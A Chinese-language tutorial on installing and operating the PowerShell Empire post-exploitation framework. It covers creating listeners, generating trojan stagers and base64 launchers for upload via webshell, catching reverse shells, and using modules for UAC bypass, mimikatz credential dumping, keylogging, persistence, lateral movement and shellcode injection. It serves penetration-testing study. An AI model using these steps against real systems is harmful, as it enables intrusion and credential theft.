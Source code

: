 ```yaml
---
categories:
    - Linux
tags:
    - Empire
---
```

##  Empire 安装
> PowerShell Empire中文简称 “帝国” ，可能大多数只听说过这款内网渗透神器，针对windows系统平台而打造的一款渗透工具。在PowerShell方面，帝国实现了无需powershell.exe即可运行PowerShell代理的功能，可快速部署的开发后的模块从按键记录到Mimikatz，可逃避网络检测的能力，适应性强的通信，都包裹在易用性为重点的框架,有点类似于像meterpreter。

Empire详情介绍参考官方网站:http://powershellempire.com/

Empire运行在linux平台上,不要试图使用centos环境,安装前我们先看看install.sh脚本,建议使用Debian或Ubuntu,以及kali Linux系统,我使用的是系统是Ubuntu系统
```
git clone https://github.com/EmpireProject/Empire.git  
```
![image](https://note.youdao.com/yws/res/9940/F8C940D28E7F4725A967638C1079DAE9)

进入Empire/setup目录安装./install.sh，install.sh脚本里面包含了很多远程下载包,安装过程比较缓慢。

```
sudo./install.sh
```
安装到这就已经结束了,末尾让我们输入随机生成的服务协商密码,直接回车就行了。
![image](https://note.youdao.com/yws/res/9945/C23D5F935BEB442EB7D3D9C6D25C63B6)

目前最新版本可以到的是2.5包含285个模块,和之前的,2.x之后有些使用方法以及命令都有了很大的区别,官网也没有给出更新介绍使用。

 使用方法跟Meterpreter原理是一样的,先设置一个监听,这里要注意了,输入”listeners”它提示说没有建立监听,

 输入`uselistener`空格按下Tab键可以看到有7种模式
 
```
dbx           http_com      http_hop      meterpreter   redirector
http          http_foreign  http_mapi     onedrive  

http[s]，用http[s]进行交互。
http_com，使用IE的COM组件进行交互。
http_foreign，这个跟http看不出差别在哪。
http_hop，接收到的请求转发到其他的listener，猜测用于C2。
dbx|onedrive，使用dropbox或者onedrive作为信息传递的中介，类似QQ空间上线或者weibo上线的远控。
http_mapi，通过邮件上线。
meterpreter msf。
```
 设置一个监听模块为http,这样就可以了 
 
```
(Empire:listeners) > uselistener http

(Empire: listeners/http) > 
```
通过`info`设置参数信息
![image](https://note.youdao.com/yws/res/9955/72844F5767A0483A8AF03DCD5F9B0450)

使用`set`来设置相应参数  
这里要注意一点，当开启多个监听的时候，必须使用不同的名称，并且使用不同的端口，如果设置的端口已经被使用，会有已下提示信息。set空格按两下Tab就会出现相关命令 如下图。 
![image](https://note.youdao.com/yws/res/9962/F0E4915B0AB749EBB5BDB27FA75C2F4D)
![image](https://note.youdao.com/yws/res/9960/E84C9CFE46874212ADCB3045904E7B29)


(Empire: Listeners) > kill xiaobai 删除监听使用kill和创建过的Name的名,back返回上一层

![image](https://note.youdao.com/yws/res/9964/20C10A6857114FB8B7FAA14899619B39)

##  生成木马程序

####  stager

设置完监听，接着我们要生成木马然后运行stager,同样的输入“usestager”以后按下空格然后在按下tab键,可以看到总共是26个模块。其中multi为通用模块、osx mac操作系统、另外还有linux与windows模块。 生成的文件类型有.dll,bat，vbs等

![image](https://note.youdao.com/yws/res/9974/1641038E959141F2A205339E1C59B9FA)

使用

![image](https://note.youdao.com/yws/res/9984/6E50F6104D454586B826A331BF333982)

![image](https://note.youdao.com/yws/res/9982/72C74F1B109240439A0B50ECA695B76E)

执行bat 反弹shell, 在`agents`查看

![image](https://note.youdao.com/yws/res/9987/D8B72FB2FDCE4CD4A27673CAF724E692)

#### launcher

实战中直接命令`usestager [具体模块]`就可以在/tmp目录下生成一个特定文件格式的木马后门，然后通过webshell上传运行就可以了。下面使用`launcher+语言类型`,不仅有powershell还有python。
![image](https://note.youdao.com/yws/res/9977/885E6EE03A084FFA8819C3D01D7490BC)
使用launcher（这里是pythonl ）+侦听的名字“xiaobai”,如下图可以看到生成的Payload是经过base64的编码。
![image](https://note.youdao.com/yws/res/9979/AE458A225BE0487FB3273F2490D5D6A5)

#### agents

当执行上面的powershell生成的木马上线了就会有这段话(Empire: listeners)> [+] Initial agent xxx from ip now active (Slack) , Name就是上线的主机,使用agents就能看到信息条目,类似meterpreter的session会话一样。

 agents #查看代理情况，带有（*）的是已被提升过的代理，可通过bypassuac进行提权
```
list stale  #列出已丢失反弹代理权
```
那么上线之后我们该如何操作,同样的在agents下输入help查看命令帮助。
![image](https://note.youdao.com/yws/res/10009/A998C86E177A465893480CD0035B9E62)

#### usemodule

```
code_execution #代码执行

collection #信息收集模块、屏幕截图、键盘记录 、剪贴板记录等

credentials #密码凭据的获取和转储

exfiltration #指定ip进行端口扫描

lateral_movement #横向渗透模块

management #用来执行些系统设置，和邮件信息的收集

persistence #权限维持工具

privesc #权限提升

recon #侦察

situational_awareness #评估主机运行环境，网络运行环境

trollsploit #恶作剧
```

```
usemodule privesc/powerup/allchecks  #当不知道用什么方法来提权的时候，可以使用一个模块来检测系统
usemodule privesc/bypassuac #在设置监听的Name,然后在执行execute,需要目标主机主动点击两次触发,成功反弹一个新的shell会话如下
usemodule situational_awareness/network/arpscan #内置arpsan模块，在局域网内发送ARP数据包，用来收集活跃主机IP和MAC地址信息
```

## 利用命令
当得到目标shell后可以执行的命令。执行的如果不是Empire的命令，那么这条命令会被解析为windows命令，但是当执行的命令有空格，就必须要用shell去执行。

```
interact [NAME] # 使用interact命令跟上刚刚上线的主机Name的名,类似meterpreter中的shell会话一样,也可以直接调用cmd
```
![image](https://note.youdao.com/yws/res/10012/5C11D7C04C9B4B89BE7D2D486054C28B)


```
bypassuac [Listener name] #通过bypassuac进行提权,会返回新的shell
sc #进行截屏
mimikatz #运行mimikatz 模块
creds  #查看所有hash值包括明文
```
![image](https://note.youdao.com/yws/res/10033/2221036934EE4536803E5B702202A586)


## msf 联动

```
usemodule code_execution/invoke_shellcode

```
